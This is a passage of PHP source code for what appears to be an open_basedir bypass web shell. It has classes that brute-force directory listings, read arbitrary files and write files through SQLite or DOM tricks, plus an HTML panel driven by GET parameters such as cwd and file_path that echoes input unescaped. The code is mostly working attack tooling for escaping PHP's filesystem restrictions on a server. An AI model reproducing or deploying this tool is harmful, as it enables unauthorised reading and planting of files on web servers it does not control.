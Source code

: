 ```php
		$payload = str_replace('\'', '\'\'', $content);
		$database = new $sqlite_class(":memory:/{$payload_path}");
		$database->exec("CREATE TABLE foo (bar STRING)");
		$database->exec("INSERT INTO foo (bar) VALUES ('{$payload}')");
		$database->close();
		rmdir(':memory:');
	}
}

// End of Core
?>
<?php
$action = isset($_GET['action']) ? $_GET['action'] : '';
$cwd = isset($_GET['cwd']) ? $_GET['cwd'] : getcwd();
$cwd = rtrim($cwd, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR;
$directorLister = fallback(array('GlobWrapperDirectoryLister', 'RealpathBruteForceDirectoryLister'));
$fileWriter = fallback(array('DOMFileWriter', 'SqliteFileWriter'));
$fileReader = fallback(array('DOMFileReader'));
$append = '';
?>
<style>
#panel {
  height: 200px;
  overflow: hidden;
}
#panel > pre {
  margin: 0;
  height: 200px;
}
</style>
<div id="panel">
<pre id="dl">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Directory Listing:</legend>Current Directory: <input name="cwd" size="100" value="<?php echo $cwd; ?>"><input type="submit" value="Go">
<?php if (get_class($directorLister) === 'RealpathBruteForceDirectoryLister'): ?>
<?php
$characters = isset($_GET['characters']) ? $_GET['characters'] : $directorLister->characters;
$maxlength = isset($_GET['maxlength']) ? $_GET['maxlength'] : $directorLister->maxlength;
$append = "&characters={$characters}&maxlength={$maxlength}";

$directorLister->setMaxlength($maxlength);
?>
Search Characters: <input name="characters" size="100" value="<?php echo $characters; ?>">
Maxlength of File: <input name="maxlength" size="1" value="<?php echo $maxlength; ?>">
<?php endif;?>
Description      : <strong><?php echo $directorLister->getDescription(); ?></strong>
</fieldset>
</form>
</pre>
<?php
$file_path = isset($_GET['file_path']) ? $_GET['file_path'] : '';
?>
<pre id="rf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Read File :</legend>File Path: <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Read">
```
